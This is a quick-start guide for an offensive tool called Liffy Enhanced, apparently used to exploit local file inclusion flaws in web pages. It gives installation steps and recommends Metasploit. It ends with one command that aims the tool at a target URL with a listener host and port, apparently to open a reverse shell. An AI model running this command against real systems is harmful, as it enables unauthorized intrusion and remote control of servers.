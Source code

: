 # 🚀 Quick Start Guide

Get up and running with Liffy Enhanced in minutes!

## 📋 Prerequisites

Before you begin, ensure you have:

- **Python 3.7+** installed on your system
- **pip** package manager
- **Git** for cloning the repository
- **Metasploit Framework** (optional but recommended)

## ⚡ Installation

### Option 1: Quick Install (Recommended)

```bash
# Clone the repository
git clone https://github.com/your-repo/liffy-enhanced.git
cd liffy-enhanced

# Run the automated installation script
chmod +x install.sh
./install.sh
```

### Option 2: Manual Install

```bash
# Clone the repository
git clone https://github.com/your-repo/liffy-enhanced.git
cd liffy-enhanced

# Install Python dependencies
pip3 install -r requirements.txt

# Make files executable
chmod +x liffy_enhanced.py
chmod +x http_server.py
```

## 🎯 Basic Usage

### 1. Automatic Technique Detection

The easiest way to start is with automatic technique detection:

```bash
python3 liffy_enhanced.py --url http://target/file.php?page= --auto --lhost 192.168.1.100 --lport 4444
```
